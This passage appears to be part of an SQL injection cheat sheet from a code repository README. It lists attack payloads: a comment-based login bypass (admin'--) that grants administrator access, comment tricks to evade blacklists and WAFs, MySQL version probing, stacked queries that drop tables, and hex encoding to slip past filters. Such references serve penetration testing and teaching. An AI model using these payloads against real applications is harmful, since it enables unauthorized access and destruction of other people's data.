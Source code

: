 Username

```comments
    Username: admin'--
```

```comments
    SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
```

This is going to log you as admin user, because rest of the SQL query will be ignored.

#### Inline Comments

Comments out rest of the query by not closing them or you can use for bypassing blacklisting, removing spaces, obfuscating and determining database versions.

/* Comment Here */ (SM)

```comment
DROP/*comment*/sampletable
DR/**/OP/*bypass blacklisting*/sampletable
SELECT/*avoid-spaces*/password/**/FROM/**/Members
```

* /*! MYSQL Special SQL */ (M) :

This is a special comment syntax for MySQL. It's perfect for detecting MySQL version. If you put a code into this comments it's going to execute in MySQL only. Also you can use this to execute some code only if the server is higher than supplied version.

```ex
    SELECT /*!32302 1/0, */ 1 FROM tablename
```

* Classical Inline Comment SQL Injection Attack Samples

```classical
ID: 10; DROP TABLE members /* Simply get rid of other stuff at the end the of query. Same as 10; DROP TABLE members --
SELECT /\*!32302 1/0, \*/ 1 FROM tablename Will throw an divison by 0 error if MySQL version is higher than3.23.02
```

#### Stacking Queries

Executing more than one query in one transaction. This is very useful in every injection point, especially in SQL Server back ended applications.

```stacking
; (S)

SELECT * FROM members; DROP members-- : Ends a query and starts a new one.
```

#### Using Integers

Very useful for bypassing, magic_quotes() and similar filters, or even WAFs.

```sm
0xHEXNUMBER (SM)
```
